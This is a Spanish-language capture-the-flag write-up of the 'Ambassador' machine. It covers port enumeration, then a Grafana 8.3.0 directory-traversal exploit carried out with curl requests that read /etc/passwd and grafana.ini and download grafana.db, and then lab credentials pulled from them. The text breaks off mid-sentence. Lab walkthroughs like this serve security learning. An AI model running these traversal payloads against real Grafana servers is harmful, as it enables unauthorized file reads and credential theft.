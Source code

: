 ```yaml
---
title: 'CTF - Ambassador WriteUp'
date: '2023-01-01'
tags: ["Grafana", "Git", "Rce", "Lfi", "CTF", "Directory Path Traversal"]
draft: true
authors: ['default']
summary: 'La máquina CTF Ambassador es un desafío de Capture The Flag que consiste en enumerar los puertos expuestos en el servidor. Después, se investiga la vulnerabilidad de Grafana y se utiliza una LFI (Local File Inclusion) para obtener el archivo de configuración de Grafana y las credenciales de administrador. También se descarga la base de datos de Grafana para obtener más información.'
images: ["/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp", "/static/images/uploads/ctf-ambassador-writeup/image.webp", "/static/images/uploads/ctf-ambassador-writeup/image-1.webp"]
---
```


![](/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp)

Esta máquina ha sido una que me ha gustado mucho. Sobre todo la primera parte hasta llegar a la escalada de privilegios.

Enumeración
-----------


```
 nmap -p- -sCV -vvv --min-rate 5000 -oG allPorts 10.10.11.183

# Output
[*] Open ports: 22,80,3000,3306
```
Si analizamos concretamente los puertos expuestos, nos encontramos con la siguiente información.


```
 nmap -p22,80,3000,3306 -vvv -sCV 10.10.11.183 -oN targeted

# Output
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Hugo 0.94.2
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Ambassador Development Server
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Jan 2023 19:33:04 GMT
|     Content-Length: 29
|     href="/login"Found.
3306/tcp open  mysql   syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 15
|   Capabilities flags: 65535

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Tenemos el puerto de *SSH*, lo que parece un s*ervidor web* típico en el puerto 80, algo desconocido en el puerto 3000 y una base de datos *MySQL* en el puerto 3306.

Local File Inclusion
--------------------

Como me corroe la curiosidad, empiezo por el puerto 3000 y me encuentro Grafana instalado.

![](/static/images/uploads/ctf-ambassador-writeup/image.webp)

Una búsqueda rápida en searchsploit me devuelve una vulnerabilidad para las versiones de Grafana anteriores a la versión 8.3.


```
 searchsploit grafana 8.3
---------------------------------------------------------------------------
 Exploit Title                                               |  Path
---------------------------------------------------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read  |    multiple/webapps/50581.py
---------------------------------------------------------------------------
```
Examinando un poco el exploit, vemos que podemos provocar un LFI con un simple comando de CURL.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/passwd

# Output
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
Buscando un poco por archivos que pueden resultarnos de interés en este caso, examinamos el archivo de configuración de Grafana almacenado en */etc/grafana/grafana.ini*.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/grafana/grafana.ini

# Output
...
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
...
```
Con esas credenciales, podemos entrar directamente al panel de Grafana. En él, vemos que hay una base de datos MySQL configurada, pero no podemos ver sus credenciales. Además de eso, no hay mucho más que podamos hacer por esa vía. Otra ruta de interés es */var/lib/grafana/grafana.db.*

![](/static/images/uploads/ctf-ambassador-writeup/image-1.webp)

Mysql configurado en GrafanaEsta ruta contiene una base de datos *sqlite,* donde se almacenan los Dashboards configurados. Con el siguiente comando nos descargamos la base de datos.


```
curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
100  644k  100  644k    0     0   529k      0  0:00:01  0:00:01 --:--:--  529k
```
Y empezamos a mirar cosas:


```
 sqlite3 grafana.db
sqlite .tables
...          
data_source                 test_data                 
...
sqlite select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-01 19:26:31|0|{}|1|uKewFgM4z
```
Llegado a este punto, probamos a 

